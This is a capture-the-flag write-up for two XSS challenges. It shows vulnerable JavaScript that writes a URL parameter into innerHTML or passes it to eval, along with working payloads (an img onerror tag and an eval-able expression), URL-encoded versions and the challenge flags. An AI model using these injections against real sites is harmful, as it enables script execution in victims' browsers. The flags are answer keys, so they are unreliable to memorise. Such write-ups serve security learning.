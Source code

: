 ```yaml
---
created: 2025-03-01T14:15
updated: 2025-03-01T20:25
---
```


## XSS 1

```js
window.onload = () => {
	const urlParams = new URLSearchParams(window.location.search);
	let helloParam = urlParams.get('hello');
	if (!helloParam) {
		helloParam = '@Hack 2025'; // Default value
	}
	document.getElementById('hello').innerHTML = helloParam;
};
```

To exploit this we simply use `img.onerror`.

```html
<img src=0 onerror=console('I_FOUND_AN_XSS!!!')>
```

```
hello=%3Cimg%20src=0%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```

```flag
ATHACKCTF{0xAAY0U_DID_FIND_AN_X55_HA0xFFHAHA}
```

## XSS 2

```js
function isValidMathExpression(input) {
	const regex = /^(.+[\+,\-,\*,\/].+)$/gm;
	return regex.test(input);
}
```

We just need to match the regex and the url param will be `eval()`ed.

```js
console.log('I_FOUND_AN_XSS!!!');-2
```

```
display=console.log(%22I_FOUND_AN_XSS!!!%22);-2
```

```flag
ATHACKCTF{R3g3X5S_IS_N0T_EN0uGH_0x7F}
```
